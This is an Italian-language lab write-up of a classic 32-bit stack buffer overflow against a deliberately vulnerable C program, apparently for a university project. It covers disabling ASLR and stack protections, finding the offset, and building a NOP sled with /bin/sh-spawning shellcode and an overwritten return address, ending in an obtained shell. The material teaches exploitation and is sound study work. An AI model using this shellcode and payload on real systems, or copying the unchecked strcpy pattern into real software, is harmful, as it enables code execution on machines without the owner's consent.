 # Guida (Da importare nella relazione del progetto) METASPLOITABLE

## Introduzione (Environment)

- 32 bit architecture
- disable ASLR (0) found in ```/proc/sys/kernel/randomize_va_space```
- compile with executable stack
    - gcc params: ```-Wall -Wextra -O2 -std=c99 -fno-stack-protector -m32 -no-pie -z execstack```


# Target code

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char** argv){
  char buffer[500];
  strcpy(buffer, argv[1]);
  
  return 0;
}
```

Il codice è molto semplice, e palesemente exploitabile


# Step 1 -> Identificare la grandezza del buffer


- Usare lo script in python, una volta che abbiamo (più o meno un'idea del buff size procediamo con gdb)

- Nel nostro caso otteniamo 520, dunque possiamo supporre 500


# Step 2 -> Capire quanto grande fare il NOP sled

![run](run.png "Run")

Come si vede dall'immagine, come prima cosa (sapendo che il buff size è 500), ho avviato il programma con un input grande 500, come potevamo aspettarci il programma è andato in segmentation fault, facendo un'analisi del registri, notiamo di aver sovrascritto l'EIP con il nostro payload (```0x41414141``` corrisponde al payload di A)

# Step 3 -> Costruzione del payload + Shellcode

Affinchè riusciamo a fare code execution su questo programma è necessario che al posto di `\x41` nell'EIP si trovi l'indirizzo al nostro shellcode, per ottenere questo risultato utilizziamo la tecnica del NOP sled, in pratica aggiungiamo tante operazione NOP (dunque che verrano skippate) fino a raggiungere (alla fine dello sled) il nostro shellcode.


---


Per prima cosa costruiamo un payload che ci serve a capire la posizione del NOP sled.

```python
nop_sled = "\x90" * 414

shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

ret_addr = "\x51\x51\x51\x51"*10

payload = nop_sled + shellcode + ret_addr
```

Nel nostro caso lo shellcode è lungo 46 bytes, dunque per arrivare a 500 (e sovrascrivere l'EIP) dobbiamo fare 500-46-40 il -40 è dovuto al fatto che alla fine del payload inseriamo l'indirizzo dove in teoria dovrebbe trovarsi lo shellcode, in questo caso abbiamo inserito ```\x51\x51\x51\x51``` solo per identificare la sua posizione velocemente. Essendo questo indirizzo lungo 4 bytes lo inseriamo 10 volte per aggiungere padding ed essere sicuri di trovarlo

# Step 4 -> Find Center of nop sled

![segfault](segfault.png "Segfault")

Come possiamo vedere dalla foto, lanciando il programma con il payload di sopra otteniamo un segmentation fault con EIP a ```0x51515151```, utilizzando gdb per leggere la memoria controlliamo cosa è stato scritto nel buffer


```bash
x/200x $esp
```

![nopsled](nopsled.png "Nopsled")

Come possiamo notare, i 414 bytes contenenti i NOP sono stati inseriti correttamente in memoria, siccome sappiamo che il nostro shellcode si trova alla fine di questi nop, basta posizionare l'EIP in mezzo a questi NOP per far eseguire il nostro shellcode, scegliamo un indirizzo nel centro ad esempio ```0xbffffde0``` ricordandoci di convertilo in little endian.

Dunque il nostro payload diventa

```python
nop_sled = "\x90" * 414

shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

ret_addr = "\xe0\xfd\xff\xbf"*10

payload = nop_sled + shellcode + ret_addr
```

# Step 4 ->  Execution

![sh](sh.png "SH")

Come possiamo notare è stato eseguito lo shellcode!!!!












